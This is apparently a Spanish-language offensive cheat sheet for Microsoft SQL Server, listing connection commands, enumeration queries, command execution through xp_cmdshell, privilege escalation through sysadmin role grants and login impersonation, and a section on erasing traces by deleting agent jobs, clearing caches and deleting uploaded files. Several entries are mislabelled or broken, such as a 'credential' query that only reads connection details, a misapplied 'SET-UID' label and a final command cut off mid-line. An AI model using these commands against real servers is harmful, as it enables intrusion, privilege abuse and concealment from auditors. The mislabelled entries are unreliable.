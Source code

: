```sql
exec -xp_cmdshell '{command}';
-- Ejecutar comando 
exec sp_configure '{option}', 0/1;
-- Activar o desactivar opción
RECONFIGURE
-- Actualizar el cambio de configuración aplicado
select name from master.sys.databases
-- Listar base de daots
select table_name from {db}.information_schema.tables
-- Listar tablas de la base de datos
use {db}
-- Usar la db para poder ver columnas 
select * from {table}
-- Mostrar todo para la base de datos


```

# Conexión a la base de datos:

-   Conexión básica desde la línea de comandos: `sqlcmd -S <IP_address> -U <username> -P <password>`
    
-   Conexión utilizando Integrated Security (sólo en Windows): `sqlcmd -S <IP_address> -E`
    
-   Conexión utilizando un archivo de configuración: `sqlcmd -S <IP_address> -U <username> -P <password> -i <file_path>`
    

# Recopilación de información:

-   Obtener la versión de SQL Server: `SELECT @@VERSION`
    
-   Obtener información sobre las bases de datos: `SELECT name, user_access_desc, is_read_only FROM sys.databases`
    
-   Obtener información sobre los usuarios: `SELECT name, type_desc, default_schema_name FROM sys.database_principals`
    
-   Obtener información sobre las tablas: `SELECT name FROM sys.tables`
    
-   Obtener información sobre las columnas de una tabla: `SELECT name, system_type_name FROM sys.columns WHERE object_id = OBJECT_ID('<table_name>')`
    

# Enumeración y explotación de vulnerabilidades:

-   Enumeración de cuentas de usuario con contraseñas débiles: `SELECT name, password_hash FROM sys.sql_logins WHERE is_disabled = 0 AND is_expiration_checked = 0 AND password_hash IS NOT NULL`
    
-   Obtención de credenciales de Windows (sólo en Windows): `SELECT auth_scheme, net_transport, protocol_type, encrypt_option FROM sys.dm_exec_connections WHERE session_id = @@SPID`
    
-   Explotación de SQL Injection: `SELECT * FROM <table_name> WHERE <vulnerable_parameter> = '<malicious_input>'`
    
-   Explotación de Buffer Overflow: Utilizar herramientas de explotación como Metasploit o Immunity Debugger.
    
-   Explotación de SQL Server Agent Job: Utilizar herramientas como PowerUpSQL o PowerView para buscar y explotar jobs mal configurados.
    
-   Explotación de SQL Server Integration Services (SSIS): Utilizar herramientas como Ysoserial.net para construir payloads maliciosos y ejecutarlos a través de SSIS.
    

# Escalada de privilegios:

-   Elevación de privilegios utilizando xp_cmdshell: `EXEC xp_cmdshell '<command>'`
    
-   Elevación de privilegios utilizando SET-UID: `CREATE PROCEDURE dbo.spAddLoginAsSysadmin AS EXEC sp_addsrvrolemember 'DOMAIN\Username', 'sysadmin'`
    
-   Elevación de privilegios utilizando impersonation: `EXECUTE AS LOGIN = '<login_name>'; <malicious_code>; REVERT;`
    

# Limpieza de huellas:

-   Eliminar la ejecución de comandos maliciosos: `DELETE FROM sysjobs WHERE name = '<job_name>'`
    
-   Eliminar los registros de las consultas realizadas: `DBCC FREEPROCCACHE; DBCC DROPCLEANBUFFERS;`
    
-   Eliminar las huellas de los archivos cargados: `EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; EXEC sp_OACreate 'Scripting.FileSystemObject', @object OUT; EXEC sp_OAMethod @object, 'DeleteFile', NULL, '<file_path>'; EXEC sp_OADestroy @object;